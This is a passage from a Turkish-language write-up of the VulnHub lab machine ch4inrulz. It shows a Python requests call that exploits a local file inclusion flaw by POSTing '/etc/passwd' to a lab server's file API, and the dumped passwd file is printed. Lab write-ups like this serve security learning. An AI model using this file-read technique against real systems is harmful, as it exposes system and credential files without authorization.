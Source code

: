 ![ch4inrulz-2](/assets/writeups/vulnhub/resimler/ch4inrulz:-1.0.1/ch4inrulz-2.png)

Bende burada Local File Inclusion açığının bulunduğunu düşünerek [buradaki github sayfasındaki](https://github.com/lucyoa/ctf-wiki/tree/master/web/file-inclusion) tüm yöntemleri denedim. Buradan bir sonuca ulaşamadım.

Uzunca uğraştan ve araştırmadan sonra biraz yardım ile POST metodu kullanmam gerektiğini öğrendim. Bu işlem için python kullandım.

```text
root@kali:~# python3
Python 3.6.7 (default, Oct 22 2018, 11:32:17)
[GCC 8.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import requests
>>> r = requests.post("http://192.168.56.102:8011/api/files_api.php", data={"file": "/etc/passwd"})
>>> print(r.text)

<head>
  <title>franks website | simple website browser API</title>
</head>

root:x:0:0:root:/root:/bin/bash
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
```